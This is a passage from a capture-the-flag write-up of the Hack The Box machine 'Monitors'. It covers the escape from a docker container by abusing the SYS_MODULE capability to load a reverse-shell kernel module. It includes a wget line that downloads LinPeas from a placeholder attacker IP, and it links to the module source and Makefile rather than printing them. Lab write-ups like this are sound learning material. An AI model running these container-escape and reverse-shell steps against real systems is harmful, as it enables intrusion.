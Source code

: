 After executing the PoC, we have a root shell
![Pasted image 20210717185538.png](/assets/Pasted%20image%2020210717185538.png)

If you notice the host, you will see it's not `monitors.htb` because we are in a docker container.

Let's download LinPeas and see if we can get an escape to root of system.

```bash
wget http://YOUR_IP/linpeas.sh
```
![Pasted image 20210717185935.png](/assets/Pasted%20image%2020210717185935.png)

We see there is a sys_module capability that we can exploit to breakout of docker
![Pasted image 20210717190351.png](/assets/Pasted%20image%2020210717190351.png)
https://blog.pentesteracademy.com/abusing-sys-module-capability-to-perform-docker-container-breakout-cf5c29956edd ^3839ca

Let's follow this blog, we start by showing our capabilities with `capsh --print`

![Pasted image 20210717190554.png](/assets/Pasted%20image%2020210717190554.png)

The container has SYS_MODULE capability. So we can insert/remove kernel modules in/from the kernel of the Docker host machine.

Now we need to find the IP of our docker container, we can find that with `ifconfig` from marcus ssh session
![Pasted image 20210717190702.png](/assets/Pasted%20image%2020210717190702.png)

Then we compile a file to invoke a reverse shell with the help of usermode Helper API.
![reverse-shell.c#^dcedab](/assets/reverse-shell.c%23%5Edcedab)
Then we create a Makefile
![reverse-shell.c#^e35de3](/assets/reverse-shell.c%23%5Ee35de3)
